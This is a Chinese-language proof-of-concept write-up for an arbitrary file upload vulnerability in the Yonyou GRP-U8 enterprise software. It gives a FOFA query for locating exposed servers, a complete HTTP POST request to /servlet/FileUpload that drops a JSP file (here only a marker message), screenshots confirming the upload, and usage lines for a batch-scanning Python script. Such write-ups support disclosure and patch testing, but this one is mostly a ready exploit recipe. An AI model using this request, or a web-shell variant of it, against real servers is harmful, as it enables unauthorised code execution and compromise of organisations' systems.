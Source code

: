 # 用友GRP-U8 FileUpload 文件上传漏洞

### 1.漏洞描述

用友GRP-U8是一款功能强大、灵活性高、可定制性强的企业资源管理软件，它可以帮助企业高效地管理资源，优化运营流程，提升整体管理水平。该产品存在任意文件上传漏洞。

### 2.fofa语法

```
app="用友-GRP-U8"
```

### 3.漏洞复现

```
POST /servlet/FileUpload?fileName=test.jsp&actionID=update HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Length: 51
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

<% out.println("This page has a vulnerability!");%>
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832814287-678467e0-4265-4e17-bd3b-e23fa5c6956e.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

浏览器访问上传路径

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832852691-b2862779-2991-4845-a2d1-bdda4d126224.png?x-oss-process=image%2Fformat%2Cwebp)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

